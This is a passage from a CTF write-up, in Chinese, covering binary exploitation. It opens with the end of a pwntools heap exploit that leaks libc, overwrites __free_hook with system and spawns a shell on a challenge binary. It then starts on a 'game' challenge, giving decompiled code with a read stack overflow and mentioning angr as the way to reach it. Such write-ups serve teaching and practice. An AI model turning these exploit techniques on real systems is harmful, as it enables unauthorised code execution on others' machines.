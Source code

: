 ```
    Add('a'*7, 6)

    Delete2(6)
    libc_addr = u64(p.recvuntil('\n', drop=True).ljust(8, '\x00'))
    libc_base = libc_addr - 96 - 0x10 - libc.sym['__malloc_hook']
    print('libc_base:',hex(libc_base))

    free_hook = libc.sym['__free_hook']+libc_base
    system_addr = libc.sym['system']+libc_base
    print('system:',hex(system_addr))
    p.sendafter('&gt; ', '\x00'*7)

    Delete(7, 'a'*7)
    Delete2(8)

    payload = p64(free_hook)
    p.sendafter('&gt; ', payload[:7])

    Add(b'/bin/sh', 9)
    #free_hook
    payload = p64(system_addr)
    Add(payload[:7], 10)

    Delete(9, 'a'*7)

    p.interactive()

Pwn()
```

### <a class="reference-link" name="game"></a>game

这道题难点，在于如何进入read的栈溢出，由于每次程序传输的表达式都是变化的，需要我们自动化的写一个能够进入read函数的代码。那么很自然的想到符号执行的经典工具：angr，这里就不放angr代码了。

#### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E5%88%86%E6%9E%90"></a>程序分析

```
__int64 __fastcall sub_4006F9(int a1)
`{`
  int v2; // [rsp+Ch] [rbp-1C4h] BYREF
  char buf[440]; // [rsp+10h] [rbp-1C0h] BYREF
  unsigned __int8 *v4; // [rsp+1C8h] [rbp-8h]

  v2 = a1;
  v4 = (unsigned __int8 *)&amp;v2;
  if ( 9170 * BYTE1(a1) * (a1 &amp; 0x8C)
    || 64437 % v4[2] + 60157 / v4[2] != 633
    || (54606 - v4[2]) * (58781 - v4[1]) != -1105261920
    || 33721 / *v4 - 36925 / v4[3] != 1082 )
  `{`
    return 0LL;
  `}`
  read(0, buf, 0x331uLL);
  return 1LL;
`}`
```
